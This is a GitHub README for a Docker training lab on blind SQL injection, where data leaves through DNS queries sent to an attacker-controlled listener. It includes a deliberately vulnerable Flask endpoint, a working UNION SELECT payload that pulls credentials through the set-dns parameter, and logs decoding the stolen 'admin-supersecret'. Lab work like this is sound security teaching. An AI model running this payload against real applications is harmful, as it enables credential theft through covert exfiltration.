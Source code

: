 # Blind SQLi Lab with DNS Exfiltration (Out-of-Band)

This lab simulates a vulnerable web application that is susceptible to blind SQL injection. The application uses user input to perform DNS resolution on a hostname retrieved from a database, allowing for **out-of-band (OOB)** data exfiltration via DNS queries to a controlled server.

## 🧪 Lab Components

- **Flask Web App (`/web`)**: 
  - A vulnerable endpoint `/search?id=<number>` executes an unsanitized SQL query.
  - It uses `nslookup` to resolve a hostname retrieved from the database.
  - Optional parameter: `set-dns=<IP>` to specify a custom DNS server for resolution.

- **DNS Listener (`/dns-server`)**:
  - A Python script that runs a simple UDP DNS server and logs incoming raw DNS queries for analysis.

- **Docker**:
  - Docker Compose is used to run both services in isolated containers.

---

## 🛠️ How to Run the Lab

### Clone this repo

	git clone https://github.com/zinzloun/blindSQLi-DNS-OOB.git
 	cd cd blindSQLi-DNS-OOB

### Run containers

	sudo docker-compose build --no-cache
 	sudo docker-compose up                                     
	Creating network "blindsqli-dns-oob_dns-net" with the default driver
	Creating blindsqli-dns-oob_dns-server_1 ... done
	Creating blindsqli-dns-oob_web_1        ... done
	Attaching to blindsqli-dns-oob_web_1, blindsqli-dns-oob_dns-server_1
	web_1         |  * Serving Flask app 'app'
	web_1         |  * Debug mode: off
	web_1         | WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
	web_1         |  * Running on all addresses (0.0.0.0)
	web_1         |  * Running on http://127.0.0.1:5000
	web_1         |  * Running on http://172.20.53.10:5000
	web_1         | Press CTRL+C to quit

	
This will:

- Start the vulnerable web app at http://localhost:8080

- Start the DNS listener: default port UDP 53, internal docker net IP 172.20.53.53


### Payloads

- Using default DNS: this performs a lookup to www.google.it using default DNS -> OK
	
	  /search?id=1
	
Check web app console log

	web_1         | Server:         127.0.0.11
	web_1         | Address:        127.0.0.11#53
	web_1         | 
	web_1         | Non-authoritative answer:
	web_1         | Name:   www.google.it
	web_1         | Address: 216.58.204.227
	web_1         | Name:   www.google.it
	web_1         | Address: 2a00:1450:4002:415::2003
	web_1         | 
	web_1         | 172.20.53.1 - - [09/Jul/2025 08:31:51] "GET /search?id=1 HTTP/1.1" 200 -
	
 - Using custom DNS: this perform the same lookup query using our controlled DNS to resolve it -> Error (but it's expected)

	   /search?set-dns=172.20.53.53&id=1

Check web app console log

 	web_1         | 172.20.53.1 - - [09/Jul/2025 08:31:51] "GET /search?id=1 HTTP/1.1" 200 -
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; no servers could be reached
	web_1         | 
	web_1         | 172.20.53.1 - - [09/Jul/2025 08:38:27] "GET /search?set-dns=172.20.53.53&id=1 HTTP/1.1" 200 -

	
Indeed check logged queries on our DSN container

	sudo docker exec -it blindsqli-dns-oob_dns-server_1 /bin/bash                                      
	root@004315a2105c:/app# cat dns_log.txt 

	2025-07-09 08:38:12,913 - DNS query from ('172.20.53.10', 41104): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:17,917 - DNS query from ('172.20.53.10', 41908): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:22,921 - DNS query from ('172.20.53.10', 57648): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001

 Decode the raw query:

 	root@004315a2105c:/app# exit
	[~/blindSQLi-DNS-OOB] python decode-raw-dnsq.py 942b010000010000000000000377777706676f6f676c650269740000010001        
	[+] Plain domain value: www.google.it

## 💥Exploitation 
Knowing that we can control the DNS parameter for nslookup and assuming that a users table is also present in the DB - how could it be missing? 😊  - we can use the following payload to exfiltrate sensitive information:

	/search?set-dns=172.20.53.53&id=1 UNION SELECT (SELECT username || '-' || password FROM users WHERE id=1)
 Check again the logged query

 	[~/blindSQLi-DNS-OOB] sudo docker exec -it blindsqli-dns-oob_dns-server_1 /bin/bash                              
	root@004315a2105c:/app# cat dns_log.txt 
	2025-07-09 08:38:12,913 - DNS query from ('172.20.53.10', 41104): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:17,917 - DNS query from ('172.20.53.10', 41908): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:22,921 - DNS query from ('172.20.53.10', 57648): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:50:39,508 - DNS query from ('172.20.53.10', 60256): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	2025-07-09 08:50:44,513 - DNS query from ('172.20.53.10', 49822): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	2025-07-09 08:50:49,517 - DNS query from ('172.20.53.10', 40392): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	root@004315a2105c:/app# 
Decode the last entries

 	root@004315a2105c:/app# exit
  	[~/blindSQLi-DNS-OOB] python decode-raw-dnsq.py 697e010000010000000000001161646d696e2d73757065727365637265740000010001                                                             
	[+] Plain domain value: admin-supersecret

## ❓ Why this Lab?
Incredible enough I found this logic implemented in a real app. The parameter where passed as JSON object in the body request to an API, but the logic was the same as presented in this lab, actually:
- no inpunt parameters validation
- control nslookup DNS server
You can eventually automete the process using SQLMap. You can find a good resource at https://blog.cyberadvisors.com/technical-blog/unblinding-blind-sql-injection-using-dns-exfiltration

## Useful docker commands

### Stop containers

	sudo docker compose down 
	
### Rebuild containers
	
	sudo docker-compose build --no-cache
